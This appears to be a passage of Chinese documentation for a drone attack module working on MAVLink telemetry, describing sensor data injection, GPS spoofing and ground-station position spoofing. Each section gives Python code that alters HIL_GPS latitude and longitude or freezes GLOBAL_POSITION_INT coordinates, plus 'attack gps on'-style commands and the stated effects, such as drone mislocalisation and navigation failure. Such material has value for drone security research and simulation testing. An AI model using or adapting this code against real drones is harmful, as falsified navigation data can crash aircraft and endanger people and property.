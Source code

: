 **攻击效果**:
- 注入带有异常值的传感器数据
- 可能导致导航系统故障

**使用方法**:
```bash
attack sensor_injection
```

### 5. GPS 攻击 (GPS Attack)

**功能**: 修改 GPS 坐标数据
**实现方式**:
```python
if self.gps:
    msg_type = m.get_type()
    if msg_type == "HIL_GPS":
        if m.id == 0:
            m.lon += 1000  # 经度偏移
            m.lat += 1000  # 纬度偏移
            m.pack(mav)
```

**攻击效果**:
- 修改 GPS 坐标，在经纬度上各增加 1000 单位
- 导致无人机定位错误

**使用方法**:
```bash
attack gps on
attack gps off
```

### 6. 地面站欺骗攻击 (GCS Spoofing)

**功能**: 修改全局位置信息
**实现方式**:
```python
if self.gcs_spoof:
    if m.get_type() == "GLOBAL_POSITION_INT":
        if not self.has_copied:
            self.newlat = m.lat
            self.newlon = m.lon
            self.has_copied = True
        m.lon = self.newlon
        m.lat = self.newlat
        m.__init__(m.time_boot_ms, m.lat, m.lon, m.alt, m.relative_alt, m.vx, m.vy, m.vz, m.hdg)
        m.pack(mav)
```

**攻击效果**:
- 固定全局位置坐标
- 阻止位置更新，导致导航系统使用过时信息

**使用方法**:
```bash
attack gcs on
attack gcs off
```
